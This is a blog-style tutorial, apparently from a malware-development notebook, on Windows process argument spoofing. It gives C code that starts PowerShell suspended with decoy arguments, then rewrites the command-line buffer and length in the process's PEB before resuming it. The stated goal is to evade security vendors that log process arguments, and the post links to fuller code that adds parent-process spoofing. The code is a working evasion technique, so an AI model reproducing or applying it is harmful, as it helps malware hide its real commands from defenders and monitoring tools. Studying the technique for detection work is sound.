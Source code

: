```yaml
---
description: powershell.exe -c echo "I am safe :)"
---
```


# Process Argument Spoofing

## Theory

First we create a process in suspended state with fake arguments (this should be at least as long as the actual argument we want to run), then we get its PEB and update the `ProcessParamters` structure in it, specifically the `CommandLine.Buffer` & `CommandLine.Length`, after which we will resume the process, and it will execute our actual argument. This helps us bypass vendors that log what the arguments are given to the process as we update the argument after it has been created.

## Argument Spoofing

First we will create a process in suspended state. Note that we would have to give the fake arguments to this suspended process. We can give the arguments through the `CreateProcess` api.

{% code fullWidth="false" %}
```c
LPSTR fakeArgs = "powershell.exe -c Write-Host 'Args faked ?'"; 
CreateProcessA(NULL, fakeArgs, NULL, NULL, FALSE, (CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT), NULL, "C:\\Windows\\System32", &si_ex.StartupInfo, &pi)) 
```
{% endcode %}

> <mark style="color:orange;">An</mark> <mark style="color:orange;"></mark><mark style="color:orange;">**Importante**</mark> <mark style="color:orange;"></mark><mark style="color:orange;">thing to note here is that the fake arguments should almost always be ≥ the real arguments. This is because whenever a process is created, there is limited memory allocated to the</mark> `CommandLine.Buffer`<mark style="color:orange;">. If the Actual args are greater than the fake ones, you might</mark> <mark style="color:orange;"></mark><mark style="color:orange;">**overwrite the buffer**</mark> <mark style="color:orange;"></mark><mark style="color:orange;">and crash the process.</mark>

Then we just need to get to the PEB of that process, and from there we will get to the `ProcessParameters` structure and eventually the `CommandLine.Buffer` & `CommandLine.Length`.

{% code overflow="wrap" %}
```c
STATUS = NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &dwRet)

pPEB = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PEB));
ReadProcessMemory(pi.hProcess, pbi.PebBaseAddress, (PVOID*)pPEB, sizeof(PEB), &szBytes)

pParams = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sizeof(RTL_USER_PROCESS_PARAMETERS));
ReadProcessMemory(pi.hProcess, pPEB->ProcessParameters, pParams, sizeof(RTL_USER_PROCESS_PARAMETERS), &szBytes)
```
{% endcode %}

Now we have read the `ProcessParameters` structure, we just need to get the `CommandLine.Buffer`. This is at the offset of `0x70` from it.

<pre class="language-c" data-overflow="wrap"><code class="lang-c">// We need to convert it to UNICODE, that's just how Windows work internally
LPSTR faikArgs = "powershell.exe -c Write-Host 'Args faked ?'"; 
LPCWSTR RealArgs = L"powershell.exe -NoExit calc.exe";

WCHAR spoofed[MAX_PATH];
wcscpy_s(spoofed, MAX_PATH, RealArgs);
WriteProcessMemory(pi.hProcess, (PVOID)pParams->CommandLine.Buffer, (PVOID)spoofed, (wcslen(spoofed) + 1) * sizeof(WCHAR), &#x26;szBytes)

//DWORD dwCorrectLength = strlen(faikArgs);
// sizeof(faikArgs) = 8 , idk why it was acting weird when I hardcoded 10, 
// it was showing full length in process hacker
// It's best to use unicode for both fake &#x26; real args
// I'll update on this weird behavior later after more testing &#x26; searching
// This below did only print till "powershell.exe" , since * 2 gives ~ unicode length
DWORD dwCorrectLength = 28;

<strong>LPVOID lpCmdLength = (PBYTE)pPEB->ProcessParameters + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine.Length);
</strong>WriteProcessMemory(pi.hProcess, lpCmdLength, &#x26;dwCorrectLength, sizeof(DWORD), &#x26;szBytes)
</code></pre>

And that's it, we have updated the command line with the actual one, and also the length as well. If I know look at it through  process hacker, I see only till the powershell.exe, and it spawns a calc.

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Seeing the fake args, before it has been updated </p></figcaption></figure>



> For some reason, I had troubles with reading the Command Line, if I look at it before my code updates it, it stays the same no matter the length I give in Process Hacker. But doing the same behavior in Process Explorer doesn't lead to similar results, I actually see the updated command line.

I did some debugging and first thought that Process Hacker looks at the Parameters once (when we look at the properties), but it seems that I was wrong (weird because it was working earlier?) but my only guess is that maybe it looks at them once at the time of creation of process, which explains why it just doesn't update. Whereas, Process Explorer may query and get the Process Parameters everytime I look at the properties, which is always the better approach.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p>Process Explorer showing the updated command line</p></figcaption></figure>

The calc.exe dies soon and another calculatorapp process spawns, but if we look at it (calc.exe) quickly, we can see that its PPID is the powershell we created.&#x20;

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Thank you.

I'll update more details later (after some more testing). For now, I have the full code which includes the PPID Spoofing as well, on my [github](https://github.com/ZzN1NJ4/Malware-Development/tree/main/MorphExe) so you can check that out if you want. I'm thinking to write more in Rust so maybe in my next post, I will be using Rust.&#x20;

